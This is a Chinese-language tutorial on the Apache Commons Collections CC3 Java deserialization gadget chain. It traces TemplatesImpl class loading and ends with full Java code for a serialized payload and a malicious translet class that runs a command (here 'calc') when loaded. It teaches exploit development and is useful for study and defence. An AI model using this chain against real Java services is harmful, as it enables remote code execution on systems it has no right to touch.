### CommonsCollections CC3

#### 前置知识

    java 的类加载机制

#### 链条分析

CC1 和 CC6 都是直接任意方法执行，而 CC3 使用的是另一种方式动态类加载。一个是命令执行，一个是代码执行。

我们先来到 ClassLoder 类



根据 java 类加载机制，它接下来会调用 definedclass 方法。



那么哪里调用了 defineClass 呢？



可以看到在 Templatesimpl 下有一个调用，是一个 private 方法，我继续往前找。




可以看到在 getTranletClasses 下有一个调用。同样是个 private，关键的是它同时调用了 newinstance 方法，这给了我们实例化一个类的方法，可能会造成代码执行，我们继续往前找。



在 newTransformer 下有一个 getTransletClasses 的调用，而且它是一个 public 方法，那么我们的链就完整了,只要把 CC1 链子的前面拿过来就好。

**AnnotationinvcationHandler.readObject >> proxy() >> Templatesimpl.newTransformer >> defineclass.newinstance**

中间的有几个参数问题需要解决，我们先看下 newTransformer。



我们只需要调用无参方法即可，这个可以不用管，再看 getTransletInstance。



_name 不能为空，_class 不能为空，然后看下 defineTransletClasses。



_bytecodes 不能为空，我们还需要调用 _tfactory 的方法，所以 _tfactory 也不能为空，这都需要利用反射进行修改。动态调试过后还有另一个问题。



一个空指针错误，我们动态调试跟进下看看。



我们加载类的父类必须是一个常量，我们跟进看看是什么。



是这么个东西，所以我们实现恶意类的时候必须继承这个类。
这就是我们需要的所有东西了。

#### 完整代码

序列化代码

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class CC3 {

    public static void main(String[] args) throws Exception {
        //新建一个 templates 实例
        TemplatesImpl templates = new TemplatesImpl();
        //反射设置必要的属性
        Class<? extends TemplatesImpl> templatesClass = templates.getClass();
        Field nameField = templatesClass.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates,"RCE");
        Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        //读取恶意类
        byte[] code = Files.readAllBytes(Paths.get("D://Java_Code//cc1//src//CC3_RCE.class"));
        //放进二维数组中
        byte[][] codes = {code};
        bytecodesField.set(templates, codes);
        //set _tfactory 属性
        Field tfactoryField = templatesClass.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templates, new TransformerFactoryImpl());

        //templates.newTransformer();

        //使用 CC1 前半段进行包裹
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(templates),
                new InvokerTransformer("newTransformer", null, null)
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        
        HashMap<Object, Object> map = new HashMap<>();
        Map lazymap = LazyMap.decorate(map, chainedTransformer);

        Class<?> c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> annotationInvocationConstructor = c.getDeclaredConstructor(Class.class, Map.class);
        annotationInvocationConstructor.setAccessible(true);
        InvocationHandler o = ((InvocationHandler) annotationInvocationConstructor.newInstance(Target.class, lazymap));

        Map map1 = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, o);
        Object o1 = annotationInvocationConstructor.newInstance(Target.class, map1);
        serialize(o);
        unserialize("ser.bin");
    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

恶意类代码

```java
package org.example;

import java.io.IOException;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

//继承父类
public class CC3_RCE extends AbstractTranslet {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
//重写必要的方法
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}

```


